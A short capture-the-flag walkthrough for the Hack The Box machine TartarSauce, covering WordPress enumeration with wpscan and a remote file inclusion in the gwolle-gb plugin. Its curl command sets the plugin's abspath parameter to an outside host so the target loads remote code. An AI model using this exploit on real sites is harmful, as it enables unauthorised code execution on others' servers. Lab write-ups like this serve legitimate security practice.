 Application get from machine TartarSauce in HTB.

Index:
- Wordpress
- RFI

First of all get where the wp applciation is running:
http://10.10.10.88/webservices/wp/

Second annalyze with wp-scan
`wpscan -u http://10.10.10.88/webservices/wp/ --enumerate p,t,u | tee wpscan.log`

Exploit the RFI from the gwolle-gb plugin.
`curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.15.99/`
